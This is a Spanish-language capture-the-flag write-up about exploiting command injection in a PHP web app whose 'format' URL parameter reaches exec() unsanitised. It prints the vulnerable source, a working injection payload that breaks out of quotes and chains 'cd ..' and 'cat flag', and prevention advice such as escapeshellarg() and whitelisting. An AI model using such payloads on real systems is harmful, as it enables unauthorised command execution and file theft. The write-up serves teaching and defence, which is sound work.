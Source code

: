 🔥 Resumen del Reto
Este desafío consistió en explotar una vulnerabilidad de inyección de comandos en una aplicación web que procesaba un parámetro format en la URL. El objetivo era leer el archivo flag.txt inyectando comandos a través del parámetro. ¡Hack the Planet! 🌍💻

🧠 Detalles de la Explotación
💻 URL Vulnerable
bash
# /?format=date%20%27+;%20cd%20..%20;%20pwd;%20cat%20flag%27

🛠️ Análisis Técnico
🔧 Comando Base:

Si revisábamos el archivo /challenge/models/TimeModel.php podiamos obervar que:
```
Model.php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```
La app usaba date con parámetro de formato (que al revisar controllers/TimeController.php) se notaba que el formato se introducía en la URL como resultado de un GET
```
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
Notábamos que se ejecutaba (de lo pasado por GET) en $time un exec que puede ejecutar comandos a nivel de sistema, con lo cual atacamos de la forma antes explicada
```
/?format=date%20%27+;%20cd%20..%20;%20pwd;%20cat%20flag%27
```
Uso normal: ?format=Y-m-d → date "Y-m-d"

🔗 Codificación URL:

%20 = Espacio ( )

%27 = Comilla simple (')

%3B = Punto y coma (;) [no usado aquí pero común] para separar comandos

Si hacíamos un 
```
pwd
```
nos encontrábamos en /www, con lo cual había que redirigirse a /flag para encontrar la flag
💣 Payload Malicioso:

bash
date ''; cd ..; pwd; cat flag'
# 🎯 Rompe la consulta original y añade comandos
⚡ Comandos Ejecutados:

bash
1. date ''        # Comando original neutralizado
2. cd ..          # 📂 Navegación de directorios
3. pwd            # 🗺️ Verificación de ruta (opcional)
4. cat flag       # 🏁 ¡Obtención de la flag!
🕵️ ¿Cómo Funcionó?
La aplicación vulnerable tenía este flujo:

php
<?php
$format = $_GET['format'];
exec("date '$format'");  # ¡Peligro! Input sin sanitizar
?>
🛡️ Medidas de Prevención
Tácticas de Seguridad	Ejemplos
🔐 Validación de Input	filter_var()
🚫 Listas Blancas	Solo permitir Y-m-d, H:i:s
⚔️ Escapado de Caracteres	escapeshellarg()
🛑 Evitar Comandos Shell	Usar DateTime() de PHP
📌 Lecciones Aprendidas
Nunca confíes en el input del usuario 🚨

Los parámetros URL son vectores comunes de ataque 🎯

Siempre sanitiza y valida los datos 🔍

Usa alternativas seguras a system()/exec() 🛡️

¡Happy Hacking! 😈💻 (pero solo en entornos autorizados)
